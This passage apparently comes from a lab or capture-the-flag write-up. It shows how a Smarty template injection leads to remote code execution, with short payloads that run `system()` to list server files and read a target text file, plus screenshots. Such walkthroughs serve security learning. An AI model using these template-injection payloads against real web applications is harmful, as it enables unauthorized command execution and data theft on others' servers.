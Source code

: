 ![Pasted image 20250505174444.png](../../../IMAGES/Pasted%20image%2020250505174444.png)

As seen, it is telling us we are dealing with `smarty`, based on that, we can achieve `RCE` with:

```php
{system("command")}
```

![Pasted image 20250505174540.png](../../../IMAGES/Pasted%20image%2020250505174540.png)

As seen, the `RCE` works, let's read the files in the server directory:

```php
{system("ls -la")}
```

![Pasted image 20250505174733.png](../../../IMAGES/Pasted%20image%2020250505174733.png)

We can now read the file:

```php
{system("cat 7c45b2d3a741398826f497d58b73a401.txt")}
```

![Pasted image 20250505174808.png](../../../IMAGES/Pasted%20image%2020250505174808.png)
